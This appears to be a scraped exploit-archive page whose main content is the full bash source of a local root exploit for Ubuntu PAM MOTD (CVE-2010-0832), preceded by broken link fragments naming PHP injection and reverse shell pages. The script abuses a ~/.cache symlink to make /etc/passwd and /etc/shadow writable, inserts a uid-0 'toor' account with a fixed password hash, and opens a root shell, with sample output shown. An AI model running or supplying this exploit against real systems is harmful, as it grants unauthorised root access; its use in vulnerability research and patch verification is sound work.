

{kind=link}
.html){kind=link}
.html){kind=link}
.html){kind=link}
--edit_this_torrent-change_screenshot.html){kind=link}
--Repeater_simple_php_code_injection.html){kind=link}
--Repeater_simple_php_code_injection--wget_tcp_pty_handler.html){kind=link}
--Repeater_simple_php_code_injection--reverse_shell.html){kind=link}
14339.sh raw code
#!/bin/bash
#
# Exploit Title: Ubuntu PAM MOTD local root
# Date: July 9, 2010
# Author: Anonymous
# Software Link: http://packages.ubuntu.com/
# Version: pam-1.1.0
# Tested on: Ubuntu 9.10 (Karmic Koala), Ubuntu 10.04 LTS (Lucid Lynx)
# CVE: CVE-2010-0832
# Patch Instructions: sudo aptitude -y update; sudo aptitude -y install libpam~n~i
# References: http://www.exploit-db.com/exploits/14273/ by Kristian Erik Hermansen
#
# Local root by adding temporary user toor:toor with id 0 to /etc/passwd & /etc/shadow.
# Does not prompt for login by creating temporary SSH key and authorized_keys entry.
#
# user@ubuntu:~$ bash ubuntu-pam-motd-localroot.sh
# [*] Ubuntu PAM MOTD local root
# [*] Backuped /home/user/.ssh/authorized_keys
# [*] SSH key set up
# [*] Backuped /home/user/.cache
# [*] spawn ssh
# [+] owned: /etc/passwd
# [*] spawn ssh
# [+] owned: /etc/shadow
# [*] Restored /home/user/.cache
# [*] Restored /home/user/.ssh/authorized_keys
# [*] SSH key removed
# [+] Success! Use password toor to get root
# Password:
# root@ubuntu:/home/user# id
# uid=0(root) gid=0(root) groupes=0(root)
#
P='toor:x:0:0:root:/root:/bin/bash'
S='toor:$6$tPuRrLW7$m0BvNoYS9FEF9/Lzv6PQospujOKt0giv.7JNGrCbWC1XdhmlbnTWLKyzHz.VZwCcEcYQU5q2DLX.cI7NQtsNz1:14798:0:99999:7:::'
echo "[*] Ubuntu PAM MOTD local root"
[ -z "$(which ssh)" ] && echo "[-] ssh is a requirement" && exit 1
[ -z "$(which ssh-keygen)" ] && echo "[-] ssh-keygen is a requirement" && exit 1
[ -z "$(ps -u root |grep sshd)" ] && echo "[-] a running sshd is a requirement" && exit 1
backup() {
[ -e "$1" ] && [ -e "$1".bak ] && rm -rf "$1".bak
[ -e "$1" ] || return 0
mv "$1"{,.bak} || return 1
echo "[*] Backuped $1"
}
restore() {
[ -e "$1" ] && rm -rf "$1"
[ -e "$1".bak ] || return 0
mv "$1"{.bak,} || return 1
echo "[*] Restored $1"
}
key_create() {
backup ~/.ssh/authorized_keys
ssh-keygen -q -t rsa -N '' -C 'pam' -f "$KEY" || return 1
[ ! -d ~/.ssh ] && { mkdir ~/.ssh || return 1; }
mv "$KEY.pub" ~/.ssh/authorized_keys || return 1
echo "[*] SSH key set up"
}
key_remove() {
rm -f "$KEY"
restore ~/.ssh/authorized_keys
echo "[*] SSH key removed"
}
own() {
[ -e ~/.cache ] && rm -rf ~/.cache
ln -s "$1" ~/.cache || return 1
echo "[*] spawn ssh"
ssh -o 'NoHostAuthenticationForLocalhost yes' -i "$KEY" localhost true
[ -w "$1" ] || { echo "[-] Own $1 failed"; restore ~/.cache; bye; }
echo "[+] owned: $1"
}
bye() {
key_remove
exit 1
}
KEY="$(mktemp -u)"
key_create || { echo "[-] Failed to setup SSH key"; exit 1; }
backup ~/.cache || { echo "[-] Failed to backup ~/.cache"; bye; }
own /etc/passwd && echo "$P" >> /etc/passwd
own /etc/shadow && echo "$S" >> /etc/shadow
restore ~/.cache || { echo "[-] Failed to restore ~/.cache"; bye; }
key_remove
echo "[+] Success! Use password toor to get root"
su -c "sed -i '/toor:/d' /etc/{passwd,shadow}; chown root: /etc/{passwd,shadow}; \
chgrp shadow /etc/shadow; nscd -i passwd >/dev/null 2>&1; bash" toor